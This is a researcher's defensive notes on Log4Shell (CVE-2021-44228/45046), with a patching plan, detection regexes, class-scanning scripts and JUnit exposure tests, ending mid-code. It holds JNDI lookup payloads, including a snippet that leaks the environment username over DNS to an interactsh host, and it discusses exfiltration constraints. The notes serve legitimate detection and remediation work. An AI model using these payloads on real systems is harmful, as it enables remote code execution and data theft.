


# Context

* [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228): 	
	* Vulnerability identified into Log4J < 2.15.0.
* [CVE-2021-45046](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45046):
	*  Vulnerability identified into Log4J < 2.16.0.

This content is created using [Joplin](https://joplinapp.org/) and then export as markdown.

# TODO list

- [ ] For CVE-2021-44228: Create a POC for the exfiltration of complex secret by DNS based on theoretical way identified.
- [x] For CVE-2021-44228: Clearly identify in which version of the library the flag `log4j2.noFormatMsgLookup=true` is supported and effective.
- [ ] For CVE-2021-45046: Create a script to identify usage of the Thread Context Map; 
  - in JAR/WAR/EAR files (will require decompilation of classes)
  - In source code
- [ ] For CVE-2021-45046: Validate the type of java exception raised in app log with a POC based on the POC above.
- [x] Fix [issues raised](https://gist.github.com/righettod/ce1570954242de2f8772c6f25eece77d#gistcomment-3998212) on script **identify-log4j-class-location.sh**:
	- [x] It doesn't work on paths with spaces.
	- [x] It doesn't work on jars nested inside jars. It needs to recursively un-jar. It's not as common to have jars in jars, but can occur, and can be used with a custom ClassLoader.
	- [x] Unzip can leave file permissions as unreadable by you. Do a `chmod +r` after unzip.

# Additional information
* [Log4j overview related software by Nationaal Cyber Security Centrum](https://github.com/NCSC-NL/log4shell/blob/main/software/README.md).
* [log4j-core version available in the maven official repository](https://search.maven.org/artifact/org.apache.logging.log4j/log4j-core).
* [Log4j RCE CVE-2021-44228 Exploitation Detection](https://gist.github.com/Neo23x0/e4c8b03ff8cdf1fa63b7d15db6e3860b).
* [CERT CH - Zero-Day Exploit Targeting Popular Java Library Log4j](https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/).
* [CERT FR advisory about log4shell](https://www.cert.ssi.gouv.fr/alerte/CERTFR-2021-ALE-022/).
* [Talos Threat Advisory: Critical Apache Log4j vulnerability being exploited in the wild](https://blog.talosintelligence.com/2021/12/apache-log4j-rce-vulnerability.html).

# Publishing location of the research

https://gist.github.com/righettod/ce1570954242de2f8772c6f25eece77d

# Associated script

## identify-log4j-class-location.sh

[identify-log4j-class-location-sh.zip](../_resources/script.zip)





# Action plan proposal

## Diclaimer

It's just a proposal based on my technical experience, it is not a silver bullet or a magic recipe!

I propose the following approache to decrease the attack/exploitation surface.

## Step 1: Block callback/leakeage + artefact cartography

ℹ️ To be performed in parallel

* **Infrastructure team:** Ensure that firewall rules defined prevent any app to establish a TCP connection to a public IP or public domain.
* **Infrastructure team:** Ensure that DNS resolution rules defined prevent any app to resolve a external (public) domain or sub domain.
* **Infrastructure team:** Add log4shell signatures in all security devices based on update provided by the associated vendor.
	* Proposal: `grep -r --include "*.log" -nwE '\$\{.*?:.*\}' .`
* **Security team:** Use this [script](https://gist.github.com/righettod/ce1570954242de2f8772c6f25eece77d) to identify occurences of log4j affected JNDI lookup class and, by extension, any occurence of log4j libraries (*log4j-core* at least) across all JAR/WAR/EAR files on systems.
* **Security team**: Identify the usage of the artefact **org.apache.logging.log4j:log4j-core** across all java projects via the maven proxy software installed (Artifactory/Nexus) in the company.
* **Development team:** Identify the usage of the artefact **org.apache.logging.log4j:log4j-core** in any java project via the source code.

Help commands for development team - On Windows, replace `grep` by `Select-String -pattern "xxx"` ([Select-String documentation](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/select-string?view=powershell-7.2)):

```bash
$ cd $PROJECT_FOLDER
# For Maven based project
$ mvn dependency:tree | grep "org.apache.logging.log4j:log4j-"
[INFO] +- org.apache.logging.log4j:log4j-core:jar:2.14.1:compile
[INFO] |  \- org.apache.logging.log4j:log4j-api:jar:2.14.1:compile
# For Gradle based project
$ gradlew dependencies | grep "org.apache.logging.log4j:log4j-"
\--- org.apache.logging.log4j:log4j-core:2.14.1
     \--- org.apache.logging.log4j:log4j-api:2.14.1
```

## Step 2: Patching

**Security team**:
 
Prioritize apps to be patched by order according to their reachability by attackers and provide this order to the development team:
1. Internet facing.
2. DMZ 1 / DMZ 2 / DMZ x.
3. Backend.

**Development team:**
 
* Idealy upgrade to version [2.16.0](https://search.maven.org/search?q=g:org.apache.logging.log4j) of Log4J (sync all artefacts from GroupID **org.apache.logging.log4j**).
* If not possible **AND** the current version of **Log4J is >=  2.10.0**: Set the JVM parameter `log4j2.noFormatMsgLookup=true`. You still be exposed to the [CVE-2021-45046](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45046). 
* If not possible **AND** the current version of **Log4J is < 2.10.0**: Upgrade is mandatory!
* Add this [unit test](https://gist.github.com/righettod/ce1570954242de2f8772c6f25eece77d#gistcomment-3995526) to the project test suite to continuously ensure that the version used of log4j is not exposed to log4shell vulnerability.

## Step 3: Security monitoring

* **Infrastructure team:** Update regularly log4shell signatures in all security devices based on update provided by the associated vendor.
* **Security team:** Add app logs to the SIEM in order to detect exception raised by JVM during log4shell payload tentative.
	* Regex: `(Error\slooking\sup\sJNDI\sresource\s\[.*?\])`
	* [Live example](https://regexr.com/6bgak).

## Important remark regarding vulnerability scanning

If a vulnerablility scan is launched to detect log4shell exposure then ensure the following properties of the scan:
* Perform a web app scan and not an IP scan.
* Indicate the correct VHOST.
* Indicate the correct Context Path.
* Indicate the correct HTTP methods.
* Indicate the correct Path to the controllers/services.
* Indicate the correct list of parameters.
* Do not forget API: For this use the OpenAPI/WSDL descriptor to ensure that the scanner will know all the services and how to correcty call them.

This set of properties have for objective to ensure that the scanner will correctly call the endpoints with its log4shell test payloads in all supported parameters (body/header/query string) of the endpoints.

Monitor your network devices event (firewall/WAF/IPS/...) to catch payloads submitted by the scanner that will trigger the vulnerability but for which the callback or dns resolution will be blocked. Otherwise the scan will report that the target is not vulnerable and it will be a false-negative.

# Content of the research

For a project managed via [maven](https://maven.apache.org/), you can use the following set of command to analyses all the modules dependencies:

```bash
$ cd $PROJECT_HOME
# See https://maven.apache.org/plugins/maven-dependency-plugin/copy-dependencies-mojo.html
$ mvn dependency:copy-dependencies
$ bash identify-log4j-class-location.sh $PROJECT_HOME
```

For project managed via [gradle](https://gradle.org/), you can use this [task](https://stackoverflow.com/a/26698161) to perform the `mvn dependency:copy-dependencies` of maven.

Initial [LinkedIn post](https://www.linkedin.com/posts/righettod_script-to-identify-log4j-affected-class-for-activity-6875328992916852736-s8oX) where I gathered all the information discovered about this vulnerability and affected versions.

I created a list of [log4shell payloads](https://gist.github.com/righettod/6e57c92779a99befeca0b73dcfe42e51) seen on my twitter feeds to allows testing detection regexes defined in protection systems.

> Below are the collection of information discovered about this vulnerability and affected versions that was initially shared on the [LinkedIn post](https://www.linkedin.com/posts/righettod_script-to-identify-log4j-affected-class-for-activity-6875328992916852736-s8oX) above

Many prefixes are available:


Prefixes can be combined:


In recent version (2.14.1) `spring` and `kubernetes` prefixes were supported. For Kubernetes, access is constrained to the [following information](https://github.com/apache/logging-log4j2/blob/master/log4j-kubernetes/src/main/java/org/apache/logging/log4j/kubernetes/KubernetesLookup.java#L165):


For the record, `lower` and `upper` prefixes were introduced from the version **2.13.0** of  `log4j2-core`. So, if an expression use such prefix, like for example `${lower:JNDI}` in version **< 2.13.0** then it will be rendered AS IS: `${lower:JNDI}`


Based on [CERT FR documentation](https://www.cert.ssi.gouv.fr/alerte/CERTFR-2021-ALE-022/) provided (thanks to [Pierre Dewez](https://www.linkedin.com/in/pdewez/)), I performed a test on the DNS resolution with prefixes combination in a expression for data leakage via DNS because RCE is not the only problem (even if it is the most important one).

For log4j-core **<= 2.7**, prefixes combination in a expression seems not supported:


For log4j-core **>= 2.8**, prefixes combination in a expression is supported:


With the help of [Sébastien Kaiser](https://www.linkedin.com/in/s%C3%A9bastien-kaiser-a1808582/), we achieve to create a little regex to identify log4j expressions: 

```bash
grep -r --include "*.log" -nwE '\$\{.*?:.*\}' .
```

Attempt to tune to prevent the usage of `.*` failed, we did not achieve to made `grep` accept it. On another side, it catch any log4j expression because they are already many bypass available/published. 

Proposed regex was based on expressions seen in logs as well as the characters used for an expression:


Data exfiltration via DNS on recent version of Java (JDK 11/12/15/17) is effective:


Regarding the data exfiltration via DNS, there is a constraint on accepted characters and I did not find a prefix to encode data or a way to use a subset. The last version of log4j-core provide a [Base64 prefix](https://github.com/apache/logging-log4j2/blob/master/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/Base64StrLookup.java) but it is for decoding and this new prefix [is not present before](https://github.com/apache/logging-log4j2/tree/rel/2.14.1/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup) the **2.5.0**:


So based on this to be exfiltrated via DNS, a data must have the format `[0-9A-Za-z\-_]*` because (at least I have not found) there is no easy way to encode/cut/split the data to bypass this constraint.

Theoretical way to bypass the constraints above (**POC** required):


Source: https://twitter.com/0x6772/status/1471204834879672322

The following exception is raised when a DNS resolution failed, for example, if a not allowed character is used in sub domain name:

```text
2021-12-14 07:58:14,165 main WARN Error looking up JNDI resource [dns://ab'456.c6s40maa89k6h46f3ar0cghrysoyyyyyn.interactsh.com]. javax.naming.ConfigurationException: Unknown DNS server: ab'456.c6s40maa89k6h46f3ar0cghrysoyyyyyn.interactsh.com [Root exception is java.net.UnknownHostException: No such host is known (ab'456.c6s40maa89k6h46f3ar0cghrysoyyyyyn.interactsh.com)]; remaining name '.'
	at jdk.naming.dns/com.sun.jndi.dns.DnsClient.<init>(DnsClient.java:130)
	at jdk.naming.dns/com.sun.jndi.dns.Resolver.<init>(Resolver.java:61)
	at jdk.naming.dns/com.sun.jndi.dns.DnsContext.getResolver(DnsContext.jav
...
```

When the resolution succeed then the following exception can occur:

```
2021-12-14 07:57:58,989 main WARN Error looking up JNDI resource [dns://ab-456.c6s40maa89k6h46f3ar0cghrysoyyyyyn.interactsh.com]. javax.naming.CommunicationException: DNS error [Root exception is java.net.SocketTimeoutException: Receive timed out]; remaining name '.'
	at jdk.naming.dns/com.sun.jndi.dns.DnsClient.query(DnsClient.java:316)
	at jdk.naming.dns/com.sun.jndi.dns.Resolver.query(Resolver.java:81)
	at jdk.naming.dns/com.sun.jndi.dns.DnsContext.c_lookup(DnsContext.java:290)
	at java.naming/com.sun.jndi.toolkit.ctx.ComponentContext.p_lookup(ComponentContext.java:542)
	at java.naming/com.sun.jndi.toolkit.ctx.PartialCompositeContext.lookup(PartialCompositeContext.java:177)
	at java.naming/com.sun.jndi.toolkit.url.GenericURLContext.lookup(Generic
```


So, the following regex can be use to identify injection tentative (failed and some succeed) - [Live Example](https://regexr.com/6bgak):

```text
(Error\slooking\sup\sJNDI\sresource\s\[.*?\])
```

Code for the DNS test - [InteractSH](https://github.com/projectdiscovery/interactsh) Github repository:

```java
Logger log = LogManager.getLogger(Sandbox2.class);
System.out.printf("LOG4J2 version: %s\n", log.getClass().getPackage().getImplementationVersion());
System.out.printf("Java version  : %s\n", System.getProperty("java.version"));
//On linux use ${env:USER}
log.info("${jndi:dns://${env:USERNAME}.xxxxx.interactsh.com}");
```

# Unit test case for CVE-2021-44228

The following unit tests suite can be added to a project to continuously *ensure that the version used of log4j-core is not exposed to log4shell vulnerability.*

```java
package eu.righettod;

import org.apache.logging.log4j.Level;
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.core.appender.ConsoleAppender;
import org.apache.logging.log4j.core.config.Configurator;
import org.apache.logging.log4j.core.config.builder.api.AppenderComponentBuilder;
import org.apache.logging.log4j.core.config.builder.api.ConfigurationBuilder;
import org.apache.logging.log4j.core.config.builder.api.ConfigurationBuilderFactory;
import org.apache.logging.log4j.core.config.builder.api.RootLoggerComponentBuilder;
import org.apache.logging.log4j.core.config.builder.impl.BuiltConfiguration;
import org.junit.After;
import org.junit.Assert;
import org.junit.Before;
import org.junit.Test;

import java.io.ByteArrayOutputStream;
import java.io.PrintStream;
import java.nio.charset.StandardCharsets;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.nio.file.StandardOpenOption;
import java.util.concurrent.TimeUnit;

/**
 * Test suite to ensure that the current version used of log4j-core is not exposed to log4shell vulnerability for CVE-2021-44228.
 *
 * @see "https://www.studytonight.com/post/log4j2-programmatic-configuration-in-java-class"
 * @see "https://docs.oracle.com/javase/7/docs/technotes/guides/net/properties.html"
 */
public class Log4ShellExposureTest {

    private static final String TEST_PAYLOAD = "${jndi:ldap://donotexists.com/test}";
    private static final String TEST_FAILED_MARKER = "Error looking up JNDI resource";
    private Logger victim;
    private final ByteArrayOutputStream captureStream = new ByteArrayOutputStream();
    private final PrintStream currentSystemOut = System.out;
    private final PrintStream currentSystemErr = System.err;

    @Before
    public void testSuiteSetup() throws Exception {
        //Capture SystemOut and SystemErr
        PrintStream ps = new PrintStream(captureStream);
        System.setOut(ps);
        System.setErr(ps);
        //Set a SOCK nonexistent proxy to prevent any data to be sent out or any call to exit the network
        System.setProperty("proxySet", "true");
        System.setProperty("socksProxyHost", "10.10.10.10");
        System.setProperty("socksProxyPort", "1111");
        //Set a quick socket timeout to speed up the test
        System.setProperty("sun.net.client.defaultConnectTimeout", "2000");
        System.setProperty("sun.net.client.defaultReadTimeout", "2000");
        //Setup the logger
        ConfigurationBuilder<BuiltConfiguration> builder = ConfigurationBuilderFactory.newConfigurationBuilder();
        builder.setStatusLevel(Level.INFO);
        builder.setConfigurationName("DefaultLogger");
        AppenderComponentBuilder appenderBuilder = builder.newAppender("Console", "CONSOLE").addAttribute("target", ConsoleAppender.Target.SYSTEM_OUT);
        appenderBuilder.add(builder.newLayout("PatternLayout").addAttribute("pattern", "%m%n"));
        RootLoggerComponentBuilder rootLogger = builder.newRootLogger(Level.INFO);
        rootLogger.add(builder.newAppenderRef("Console"));
        builder.add(appenderBuilder);
        builder.add(rootLogger);
        //Use this method if reconfigure() do not exists in the log4j2 tested version
        //Configurator.initialize(builder.build()); 		
        Configurator.reconfigure(builder.build());
        //Setup the logger used
        victim = LogManager.getRootLogger();
        //Display execution context
        System.out.printf("LOG4J2 version: %s\n", victim.getClass().getPackage().getImplementationVersion());
        System.out.printf("Java version  : %s\n", System.getProperty("java.version"));
    }

    @After
    public void testSuiteFinalize() throws Exception {
        //Reset SystemOut and SystemErr to original ones
        System.setOut(currentSystemOut);
        System.setErr(currentSystemErr);
        //Remove the SOCK proxy
        System.getProperties().remove("proxySet");
        System.getProperties().remove("socksProxyHost");
        System.getProperties().remove("socksProxyPort");
        //Remove socket timeout
        System.getProperties().remove("sun.net.client.defaultConnectTimeout");
        System.getProperties().remove("sun.net.client.defaultReadTimeout");
    }

    @Test
    public void testExposure() throws Exception {
        //Log the payload
        victim.info(TEST_PAYLOAD);
        //Let's time to logger to write the content to the appender and any JNDI lookup to be attempted
        TimeUnit.SECONDS.sleep(10);
        //Check if any JNDI lookup tentative was performed
        String out = captureStream.toString(StandardCharsets.UTF_8);
        //Save the output for ease debugging operations
        Files.deleteIfExists(Paths.get("target", "Log4ShellExposureTest.out"));
        Files.writeString(Paths.get("target", "Log4ShellExposureTest.out"), out, StandardCharsets.UTF_8, StandardOpenOption.CREATE);
        //Apply assertion using the JNDI lookup marker
        Assert.assertFalse("JNDI lookup tentative identified, see target/Log4ShellExposureTest.out file for details.", out.contains(TEST_FAILED_MARKER));
    }
}
```

Execution on the unit test against **log4j-core 2.14.1** (vulnerable):


Execution on the unit test against **log4j-core 2.16.0** (patched):


# Note about the affected JNDI class presence

The following script was created to identify, in which jar files of a [complete distribution of Log4J2](https://archive.apache.org/dist/logging/log4j/), the class `org.apache.logging.log4j.core.lookup.JndiLookup` is present:

```bash
#!/bin/bash
#########################################################################################################
# Script to identify Log4J affected class for CVE-2021-44228 in a distribution of LOG4J2
#########################################################################################################
# See https://search.maven.org/artifact/org.apache.logging.log4j/log4j-core
VERSION=$1
TARGET_CLASS_NAME="org/apache/logging/log4j/core/lookup/JndiLookup.class"
DIST_URL="https://archive.apache.org/dist/logging/log4j/$VERSION/apache-log4j-$VERSION-bin.zip"
WORKDIR="/tmp/work"
WORKBIN="/tmp/log4j2.zip"
echo -e "\e[93m[+] Download and uncompress release $VERSION archive...\e[0m"
wget -q -O $WORKBIN $DIST_URL
rm -rf $WORKDIR 2>/dev/null
mkdir $WORKDIR
unzip -q -d $WORKDIR $WORKBIN
echo -e "\e[93m[+] Search class '$TARGET_CLASS_NAME' across all jar files...\e[0m"
for lib in $(find $WORKDIR -iname "*.jar")
do
    find=$(unzip -l $lib | grep -c "$TARGET_CLASS_NAME")
	if [ $find -ne 0 ]
	then
		echo "'$(basename $lib)' file contains the class."
	fi    
done
echo -e "\e[93m[+] Cleanup...\e[0m"
rm -rf $WORKDIR 2>/dev/null
rm $WORKBIN
```

Execution against the release **2.14.1**:

```bash
$ bash find-jndi-class.sh "2.14.1"
[+] Download and uncompress release 2.14.1 archive...
[+] Search class 'org/apache/logging/log4j/core/lookup/JndiLookup.class' across all jar files...
'log4j-core-2.14.1.jar' file contains the class.
[+] Cleanup...
```

Execution against **all published releases**:

*Utility script named test.sh*

```bash
#!/bin/bash
while IFS= read -r line
do
  bash find-jndi-class.sh $line
done < "versions.txt"
```

*Execution*

```bash
# "data.txt" file created using this page html content:
# https://archive.apache.org/dist/logging/log4j/
$ head -5 data.txt
[DIR] 2.0-alpha1/                    2016-05-30 04:49    -
[DIR] 2.0-alpha2/                    2016-05-30 04:49    -
[DIR] 2.0-beta1/                     2016-05-30 04:49    -
[DIR] 2.0-beta2/                     2016-05-30 04:49    -
[DIR] 2.0-beta3/                     2016-05-30 04:49    -
$ cat data.txt | cut -d'/' -f1 | cut -d' ' -f2 | sort > versions.txt
$ head -5 versions.txt
2.0
2.0-alpha1
2.0-alpha2
2.0-beta1
2.0-beta2
$ bash test.sh | grep "file contains the class"
'log4j-core-2.0.jar' file contains the class.
'log4j-core-2.0-beta9.jar' file contains the class.
'log4j-core-2.0-rc1.jar' file contains the class.
'log4j-core-2.0-rc2.jar' file contains the class.
'log4j-core-2.0.1.jar' file contains the class.
'log4j-core-2.0.2.jar' file contains the class.
'log4j-core-2.1.jar' file contains the class.
'log4j-core-2.10.0.jar' file contains the class.
'log4j-core-2.11.0.jar' file contains the class.
'log4j-core-2.11.1.jar' file contains the class.
'log4j-core-2.11.2.jar' file contains the class.
'log4j-core-2.12.0.jar' file contains the class.
'log4j-core-2.12.1.jar' file contains the class.
'log4j-core-2.12.2.jar' file contains the class.
'log4j-core-2.13.0.jar' file contains the class.
'log4j-core-2.13.1.jar' file contains the class.
'log4j-core-2.13.2.jar' file contains the class.
'log4j-core-2.13.3.jar' file contains the class.
'log4j-core-2.14.0.jar' file contains the class.
'log4j-core-2.14.1.jar' file contains the class.
'log4j-core-2.15.0.jar' file contains the class.
'log4j-core-2.16.0.jar' file contains the class.
'log4j-core-2.2.jar' file contains the class.
'log4j-core-2.3.jar' file contains the class.
'log4j-core-2.4.jar' file contains the class.
'log4j-core-2.4.1.jar' file contains the class.
'log4j-core-2.5.jar' file contains the class.
'log4j-core-2.6.jar' file contains the class.
'log4j-core-2.6.1.jar' file contains the class.
'log4j-core-2.6.2.jar' file contains the class.
'log4j-core-2.7.jar' file contains the class.
'log4j-core-2.8.jar' file contains the class.
'log4j-core-2.8.1.jar' file contains the class.
'log4j-core-2.8.2.jar' file contains the class.
'log4j-core-2.9.0.jar' file contains the class.
'log4j-core-2.9.1.jar' file contains the class.
```

So, focus can be made on the artifact **org.apache.logging.log4j:log4j-core** when searching for usage of Log4J2 in project source code / maven proxy / projet descriptor (maven, gradle).

# Note about the security flags

The following script was created to identify, in which version of Log4j2, the flag `log4j2.formatMsgNoLookups` or `log4j2.enableJndi` were present based on sources provided with [complete distribution of Log4J2](https://archive.apache.org/dist/logging/log4j/):

```bash
#!/bin/bash
#########################################################################################################
# Script to identify Log4J version supporting security flags mentioned in CVE advisory
#########################################################################################################
# See https://search.maven.org/artifact/org.apache.logging.log4j/log4j-core
VERSION=$1
DIST_URL="https://archive.apache.org/dist/logging/log4j/$VERSION/apache-log4j-$VERSION-bin.zip"
WORKDIR="/tmp/work2"
WORKBIN="/tmp/log4j2-dist.zip"
WORKSRC="/tmp/worksrc"
echo -e "\e[93m[+] Download and uncompress release $VERSION archive...\e[0m"
wget -q -O $WORKBIN $DIST_URL
rm -rf $WORKDIR 2>/dev/null
mkdir $WORKDIR
unzip -q -d $WORKDIR $WORKBIN
echo -e "\e[93m[+] Search flags across all sources files ...\e[0m"
for lib in $(find $WORKDIR -iname "*-sources.jar")
do
	rm -rf $WORKSRC 2>/dev/null
	mkdir $WORKSRC
	unzip -q -d $WORKSRC $lib
	# See https://github.com/apache/logging-log4j2/blob/master/log4j-core/src/main/java/org/apache/logging/log4j/core/util/Constants.java#L67
    find=$(grep -r --include "*.java" "log4j2\.formatMsgNoLookups" $WORKSRC | wc -l)
	if [ $find -ne 0 ]
	then
		echo "'$(basename $lib)' file contains the flag: 'log4j2.formatMsgNoLookups'."
	fi 
	# See https://github.com/apache/logging-log4j2/blob/master/log4j-core/src/main/java/org/apache/logging/log4j/core/net/JndiManager.java#L76
    find=$(grep -r --include "*.java" "log4j2\.enableJndi" $WORKSRC | wc -l)
	if [ $find -ne 0 ]
	then
		echo "'$(basename $lib)' file contains the flag: 'log4j2.enableJndi'."
	fi 
done
echo -e "\e[93m[+] Cleanup...\e[0m"
rm -rf $WORKDIR 2>/dev/null
rm -rf $WORKSRC 2>/dev/null
rm $WORKBIN
```

Execution against **all published releases**:

*Utility script named test.sh*

```bash
#!/bin/bash
while IFS= read -r line
do
  bash find-flag.sh $line
done < "versions.txt"
```

*Execution*

```bash
# "data.txt" file created using this page html content:
# https://archive.apache.org/dist/logging/log4j/
$ head -5 data.txt
[DIR] 2.0-alpha1/                    2016-05-30 04:49    -
[DIR] 2.0-alpha2/                    2016-05-30 04:49    -
[DIR] 2.0-beta1/                     2016-05-30 04:49    -
[DIR] 2.0-beta2/                     2016-05-30 04:49    -
[DIR] 2.0-beta3/                     2016-05-30 04:49    -
$ cat data.txt | cut -d'/' -f1 | cut -d' ' -f2 | sort > versions.txt
$ head -5 versions.txt
2.0
2.0-alpha1
2.0-alpha2
2.0-beta1
2.0-beta2
$ bash test.sh | grep "file contains the flag"
'log4j-core-2.10.0-sources.jar' file contains the flag: 'log4j2.formatMsgNoLookups'.
'log4j-core-2.11.0-sources.jar' file contains the flag: 'log4j2.formatMsgNoLookups'.
'log4j-core-2.11.1-sources.jar' file contains the flag: 'log4j2.formatMsgNoLookups'.
'log4j-core-2.11.2-sources.jar' file contains the flag: 'log4j2.formatMsgNoLookups'.
'log4j-core-2.12.0-sources.jar' file contains the flag: 'log4j2.formatMsgNoLookups'.
'log4j-core-2.12.1-sources.jar' file contains the flag: 'log4j2.formatMsgNoLookups'.
'log4j-core-2.12.2-sources.jar' file contains the flag: 'log4j2.formatMsgNoLookups'.
'log4j-core-2.12.2-sources.jar' file contains the flag: 'log4j2.enableJndi'.
'log4j-core-2.13.0-sources.jar' file contains the flag: 'log4j2.formatMsgNoLookups'.
'log4j-core-2.13.1-sources.jar' file contains the flag: 'log4j2.formatMsgNoLookups'.
'log4j-core-2.13.2-sources.jar' file contains the flag: 'log4j2.formatMsgNoLookups'.
'log4j-core-2.13.3-sources.jar' file contains the flag: 'log4j2.formatMsgNoLookups'.
'log4j-core-2.14.0-sources.jar' file contains the flag: 'log4j2.formatMsgNoLookups'.
'log4j-core-2.14.1-sources.jar' file contains the flag: 'log4j2.formatMsgNoLookups'.
'log4j-core-2.15.0-sources.jar' file contains the flag: 'log4j2.formatMsgNoLookups'.
'log4j-core-2.16.0-sources.jar' file contains the flag: 'log4j2.formatMsgNoLookups'.
'log4j-core-2.16.0-sources.jar' file contains the flag: 'log4j2.enableJndi'.
```

So based on the results above:
* Flag `log4j2.formatMsgNoLookups` can be used on Log4j2 version **>= 2.10.0** ([source ref](https://github.com/apache/logging-log4j2/blob/master/log4j-core/src/main/java/org/apache/logging/log4j/core/util/Constants.java#L67)).
* Flag `log4j2.enableJndi` can be used on Log4j2 versions **2.12.2** and **2.16.0** only ([source ref](https://github.com/apache/logging-log4j2/blob/master/log4j-core/src/main/java/org/apache/logging/log4j/core/net/JndiManager.java#L76)).

The following script was created and used in combination of a test Maven project using this [test class](https://gist.github.com/righettod/ce1570954242de2f8772c6f25eece77d#gistcomment-3995526) to identify in which versions **>= 2.10.0** the flag is `log4j2.formatMsgNoLookups` is effective or not:

Script and POM file of the test project:


Execution with the security flag disabled to verify that the unit test is OK:


Execution with the security flag enabled to see the protection state:


So based on the results above: The flag is effective on versions **>= 2.10.0**.

# Note about formatMsgNoLookups bypass

This bypass was bring by the [CVE-2021-45046](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45046).

Below is a POC from [LunaSecIO](https://twitter.com/LunaSecIO) showing the vulnerability and its exploitation context:


Source: https://twitter.com/LunaSecIO/status/1470871128843251716

A unit tests suite was created and used to perform some tests for the bypass of `log4j2.formatMsgNoLookups=true`:

```java
package eu.righettod;

import org.apache.logging.log4j.Level;
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.ThreadContext;
import org.apache.logging.log4j.core.appender.ConsoleAppender;
import org.apache.logging.log4j.core.config.Configurator;
import org.apache.logging.log4j.core.config.builder.api.AppenderComponentBuilder;
import org.apache.logging.log4j.core.config.builder.api.ConfigurationBuilder;
import org.apache.logging.log4j.core.config.builder.api.ConfigurationBuilderFactory;
import org.apache.logging.log4j.core.config.builder.api.RootLoggerComponentBuilder;
import org.apache.logging.log4j.core.config.builder.impl.BuiltConfiguration;
import org.junit.After;
import org.junit.Assert;
import org.junit.Before;
import org.junit.Test;

import java.io.ByteArrayOutputStream;
import java.io.PrintStream;
import java.nio.charset.StandardCharsets;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.nio.file.StandardOpenOption;
import java.util.concurrent.TimeUnit;

/**
 * Test suite to ensure that the current version used of log4j-core is not exposed to log4shell vulnerability for CVE-2021-44228
 * with the "log4j2.formatMsgNoLookups=true" bypass.
 *
 * @see "https://www.studytonight.com/post/log4j2-programmatic-configuration-in-java-class"
 * @see "https://docs.oracle.com/javase/7/docs/technotes/guides/net/properties.html"
 */
public class Log4ShellExposureTestFormatMsgNoLookupsBypass {

    private static final String TEST_PAYLOAD = "${jndi:ldap://donotexists.com/test}";
    private static final String TEST_FAILED_MARKER = "Error looking up JNDI resource";
    private Logger victim;
    private final ByteArrayOutputStream captureStream = new ByteArrayOutputStream();
    private final PrintStream currentSystemOut = System.out;
    private final PrintStream currentSystemErr = System.err;

    @Before
    public void testSuiteSetup() throws Exception {
        //Capture SystemOut and SystemErr
        PrintStream ps = new PrintStream(captureStream);
        System.setOut(ps);
        System.setErr(ps);
        //Set a SOCK nonexistent proxy to prevent any data to be sent out or any call to exit the network
        System.setProperty("proxySet", "true");
        System.setProperty("socksProxyHost", "10.10.10.10");
        System.setProperty("socksProxyPort", "1111");
        //Set a quick socket timeout to speed up the test
        System.setProperty("sun.net.client.defaultConnectTimeout", "2000");
        System.setProperty("sun.net.client.defaultReadTimeout", "2000");
        //Setup the logger
        ConfigurationBuilder<BuiltConfiguration> builder = ConfigurationBuilderFactory.newConfigurationBuilder();
        builder.setStatusLevel(Level.INFO);
        builder.setConfigurationName("DefaultLogger");
